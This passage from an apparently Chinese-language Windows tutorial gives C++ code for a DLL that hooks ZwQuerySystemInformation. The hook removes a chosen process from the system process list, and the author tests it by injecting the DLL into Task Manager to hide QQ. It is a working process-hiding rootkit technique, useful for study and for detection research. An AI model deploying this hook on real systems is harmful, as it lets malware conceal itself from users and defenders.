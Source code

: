 自己可控的函数,即`New_ZwQuerySystemInformation`

    
    
    NTSTATUS WINAPI New_ZwQuerySystemInformation(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength){    NTSTATUS status = NULL;    PSYSTEM_PROCESS_INFORMATION pCur = NULL, pPrev = NULL;    DWORD dwHideProcessId = 29936;    //先卸载钩子    unhookZwQuerySystemInformation();    // 获取 ntdll.dll 的加载基址, 若没有则返回    HMODULE hntdll = LoadLibraryA("ntdll.dll");    if (!hntdll) {        std::cout << "[!] Load ntdll Faild..\n";        return status;    }    // 获取 ZwQuerySystemInformation 函数地址#ifdef _WIN64    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,        _Inout_   PVOID                    SystemInformation,        _In_      ULONG                    SystemInformationLength,        _Out_opt_ PULONG                   ReturnLength        );#else    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,        _Inout_   PVOID                    SystemInformation,        _In_      ULONG                    SystemInformationLength,        _Out_opt_ PULONG                   ReturnLength        );#endif    typedef_ZwQuerySystemInformation ZwQuerySystemInformation = (typedef_ZwQuerySystemInformation)::GetProcAddress(hntdll, "ZwQuerySystemInformation");    if (!ZwQuerySystemInformation) {        std::cout << "[!] Get ZwQuerySystemInformation Addr Faild..\n";        return status;    }    //调用原来的函数,第二个参数是返回请求的信息    status = ZwQuerySystemInformation(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);    if (NT_SUCCESS(status) && 5 == SystemInformationClass)    {        pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;        while (TRUE)        {            // 判断是否是要隐藏的进程PID,是就把该进程信息删除            if (dwHideProcessId == (DWORD)pCur->UniqueProcessId)            {                if (0 == pCur->NextEntryOffset)                {                    pPrev->NextEntryOffset = 0;                }                else                {                    pPrev->NextEntryOffset = pPrev->NextEntryOffset + pCur->NextEntryOffset;                }            }            else            {                pPrev = pCur;            }            if (0 == pCur->NextEntryOffset)            {                break;            }            pCur = (PSYSTEM_PROCESS_INFORMATION)((BYTE*)pCur + pCur->NextEntryOffset);        }    }    //挂钩    hookZwQuerySystemInformation();    return status;}

以上函数全部写在dll中,`dllmain`主函数:

    
    
    BOOL APIENTRY DllMain( HMODULE hModule,                       DWORD  ul_reason_for_call,                       LPVOID lpReserved                     ){    switch (ul_reason_for_call)    {    case DLL_PROCESS_ATTACH:        hookZwQuerySystemInformation();        g_hModule = hModule;        break;    case DLL_THREAD_ATTACH:        break;    case DLL_THREAD_DETACH:        break;    case DLL_PROCESS_DETACH:        unhookZwQuerySystemInformation();        break;    }    return TRUE;}

## 测试

•win10•64位dll•Injectdll(进程注入程序)•Taskmgr.exe

要注意的是dll的位数。找到任务管理器pid:

![](https://gitee.com/fuli009/images/raw/master/public/20210902012029.png)

这里选择隐藏QQ程序

![](https://gitee.com/fuli009/images/raw/master/public/20210902012030.png)

注入程序后

![](https://gitee.com/fuli009/images/raw/master/public/20210902012032.png)![](https://gitee.com/fuli009/images/raw/master/public/20210902012033.png)
